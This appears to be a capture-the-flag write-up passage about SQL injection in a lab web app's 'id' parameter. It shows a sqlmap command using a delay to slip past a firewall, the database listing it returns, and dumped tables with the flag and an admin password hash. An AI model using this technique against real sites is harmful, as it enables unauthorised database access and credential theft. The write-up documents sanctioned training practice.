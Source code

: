 the login page in `http://10.0.1.10/admin.php` doesn't seem vurnerable to sqli or typical bug  
for bypass login. after testing the index page there's sqli bug in param `id`. i use `sqlmap`  
with delay for 1 second to bypass the firewall blocking :
```bash
muwa00@ritalin:~$ sqlmap --url "http://10.0.1.10/?page=post.php&id=*" --level=5 --risk=3 --delay=1 --dbs
...
++++++++++| snippet |++++++++++
...
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[01:43:39] [INFO] fetching database names
[01:43:41] [INFO] retrieved: 'information_schema'
[01:43:42] [INFO] retrieved: 'mysql'
[01:43:43] [INFO] retrieved: 'performance_schema'
[01:43:44] [INFO] retrieved: 'sixes'
[01:43:45] [INFO] retrieved: 'sys'
available databases [5]:                                                                                                                            
[*] information_schema
[*] mysql
[*] performance_schema
[*] sixes
[*] sys
```


dump database `sixes` :
```bash
...
++++++++++| snippet flag |++++++++++
...
Database: sixes
Table: s3cr3t_t4ble_31337
[1 entry]
+----------------------------------------------+
| flag                                         |
+----------------------------------------------+
| shellmates{69f78fa6e9f49d180d145553ceecf87d} |
+----------------------------------------------+
...
++++++++++| snippet |++++++++++
...
Database: sixes
Table: users
[1 entry]
+-------+-----------+----------------------------------+
| role  | username  | password                         |
+-------+-----------+----------------------------------+
| admin | webmaster | c78180d394684c07d6d87b291d8fe533 |
+-------+-----------+----------------------------------+
```
